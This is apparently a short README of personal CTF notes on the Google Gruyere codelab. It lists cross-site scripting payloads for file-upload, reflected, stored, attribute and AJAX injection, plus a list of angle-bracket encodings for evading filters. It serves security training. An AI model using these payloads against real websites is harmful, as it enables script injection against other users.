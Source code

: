 # CTF
some reports about codelabs, wargames and CTF 

## Web Application Exploits and Defenses
[https://google-gruyere.appspot.com/](https://google-gruyere.appspot.com/)

### Cross-Site Scripting (XSS)

1. File Upload XSS
```
Upload a file with name “><img src=1 onerror=alert(document.domain)>’ brute.jpeg
```
tool to try different file upload path [w3schools](https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_fileupload_value)

2. Reflected XSS Attack

```
exploit message of unfound page, open https://google-gruyere.appspot.com/id/%3Cscript%3Ealert()%3C/script%3E

```
Other ways to write < > in url
%3e %3c
%253e %253c
%c0%be %c0%bc
%26gt; %26lt;
%26amp;gt; %26amp;lt;
\074\x3c\u003c\x3C \u003C\X3C\U003C
+ADw- +AD4-

3. Stored XSS

```
not all html syntax was blocked, for example try insert script inside valid tag, like <a onmouseover=alert(1)>hover this
```

4. XSS in HTML attribute

```
edit color style to escape value of first attribute and add script like  red' onmouseover='alert(2)
```

5.Stored XSS via AJAX

```
exploit JSON file generated as anwser to refresh button, insert unexpected lines like 

all <span style=display:none>"
+ (alert(1),"")
+ "</span>your base
```

